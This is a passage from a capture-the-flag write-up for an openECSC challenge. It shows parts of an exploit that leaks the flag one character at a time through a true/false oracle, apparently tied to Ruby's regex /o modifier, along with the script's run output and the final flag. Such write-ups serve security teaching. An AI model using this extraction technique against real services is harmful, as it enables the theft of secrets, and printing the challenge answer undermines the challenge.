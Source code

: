 ```python
            if "Now I will test my flag:" in last_line:
                result = last_line.split("Now I will test my flag:")[-1].strip()
            else:
                result = last_line.strip()
            
            return result == "false"  # false = match!
```

**Character set** (expanded to include URL characters):

```python
charset = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_!@#$-./:="
```

#### Running the Exploit

```bash
$ python3 exploit_o_modifier.py
[*] Starting flag extraction...
[*] Known prefix: openECSC{

[+] MATCH! Character 'C' is correct!
[+] Current flag: openECSC{C

[+] MATCH! Character 'o' is correct!
[+] Current flag: openECSC{Co

[+] MATCH! Character 'n' is correct!
[+] Current flag: openECSC{Con

[+] MATCH! Character 'g' is correct!
[+] Current flag: openECSC{Cong

...

[+] Current flag: openECSC{Congrats!_https://jpcamara.com

...
```

At this point, I visited the URL and found an article titled:

> **"The /o in Ruby regex stands for 'oh the humanity!'"**

The article explained this exact vulnerability! The URL was the rest of the flag.

**Final flag**: `openECSC{Congrats!_https://jpcamara.com/2025/08/02/the-o-in-ruby-regex.html}`

### Flag

**`openECSC{Congrats!_https://jpcamara.com/2025/08/02/the-o-in-ruby-regex.html}`**
